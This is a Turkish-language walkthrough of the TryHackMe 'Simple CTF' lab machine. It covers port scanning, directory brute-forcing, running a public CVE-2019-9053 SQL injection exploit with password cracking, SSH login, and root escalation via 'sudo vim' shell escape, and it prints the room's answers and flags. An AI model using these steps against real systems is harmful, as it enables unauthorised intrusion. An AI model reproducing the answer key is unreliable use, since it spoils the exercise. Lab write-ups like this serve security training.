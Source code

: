 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/easyctf">Simple CTF</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

* * *

nmap taraması başlatalım:

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV -p- 10.10.118.25
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-14 01:12 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:12
Scanning 10.10.118.25 [4 ports]
Completed Ping Scan at 01:12, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:12
Completed Parallel DNS resolution of 1 host. at 01:12, 0.00s elapsed
Initiating SYN Stealth Scan at 01:12
Scanning 10.10.118.25 (10.10.118.25) [65535 ports]
Discovered open port 80/tcp on 10.10.118.25
Discovered open port 21/tcp on 10.10.118.25
SYN Stealth Scan Timing: About 21.89% done; ETC: 01:15 (0:01:51 remaining)
Discovered open port 2222/tcp on 10.10.118.25
SYN Stealth Scan Timing: About 56.59% done; ETC: 01:14 (0:00:47 remaining)
Completed SYN Stealth Scan at 01:14, 92.02s elapsed (65535 total ports)
Initiating Service scan at 01:14
Scanning 3 services on 10.10.118.25 (10.10.118.25)
Completed Service scan at 01:14, 6.20s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.118.25.
Initiating NSE at 01:14
Completed NSE at 01:14, 0.41s elapsed
Initiating NSE at 01:14
Completed NSE at 01:14, 0.36s elapsed
Nmap scan report for 10.10.118.25 (10.10.118.25)
Host is up (0.089s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.41 seconds
           Raw packets sent: 131138 (5.770MB) | Rcvd: 71 (2.852KB)
```

1000 portunun altında kaç hizmet çalışıyor?

- 2

En yüksek portta hangi hizmet çalışıyor?

- ssh

80 portunda websitesi çalışıyor siteyi kontrol edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a1.png?raw=true)

Sıradan ubuntu default sayfası. 

Gobuster çalıştırarak gizli dizin arayalım.

```
┌──(root㉿r3tr0)-[~]
└─# gobuster dir -u http://10.10.118.25/ -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

Gobuster çıktısı:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.118.25/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.118.25/simple/]
```

simple sayfasını buluyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a2.png?raw=true)

Siteyi incelediğimizde CMS Made Simple 2.2.8 versiyonu kullanıldığını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a3.png?raw=true)


Google'a gidip "CMS Made Simple 2.2.8 exploit" ifadesini aratarak bu sürümle ilgili herhangi bir şey olup olmadığına bakalım.


Sonuçlara baktığımızda, Exploit-DB'de aramamızla eşleşen ve CVE-2019–9053 kullanan bir SQL enjeksiyon saldırısına atıfta bulunan bir sayfa görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a4.png?raw=true)

Uygulamaya karşı kullandığınız CVE nedir?

- CVE-2019-9053


Uygulama ne tür bir güvenlik açığına karşı savunmasızdır?

- SQLi

Exploit'i indirelim ve çalıştıralım.

```
┌──(root㉿r3tr0)-[/home/kali/Downloads]
└─# python3 46635.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

Bizden istediği parametreleri girelim.

```
┌──(root㉿r3tr0)-[/home/kali/Downloads]
└─# python3 46635.py -u http://10.10.118.25/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a5.png?raw=true)

Kullanıcı adı ve şifreyi buluyoruz.

Şifre nedir?
- secret

Elde edilen bilgilerle nereden giriş yapabilirsiniz?
- SSH

SSH ile makineye bağlanalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a6.png?raw=true)

user bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a7.png?raw=true)

Kullanıcı bayrağı nedir?

- G00d j0b, keep up!

Yetki yükselmeye geçelim. Öncelikle mevcut kullanıcının neyi çalıştırabileceğini görmek için “sudo -l” komutunu çalıştıralım.

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

“Mitch” kullanıcısının /usr/bin/vim'i şifre olmadan çalıştırabildiğini görüyoruz. Bu bilgilerle GTFOBins'e göz atalım ve bunu privesc için kullanıp kullanamayacağımıza bakalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a8.png?raw=true)

sudo vim -c ':!/bin/sh' komutunu kullanarak yetki yükseltebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a9.png?raw=true)

Root bayrağı nedir?

-W3ll d0n3. You made it!

Ve böylece bir ctf daha tamamladık. Gelecek yazılarımda görüşmek üzere.


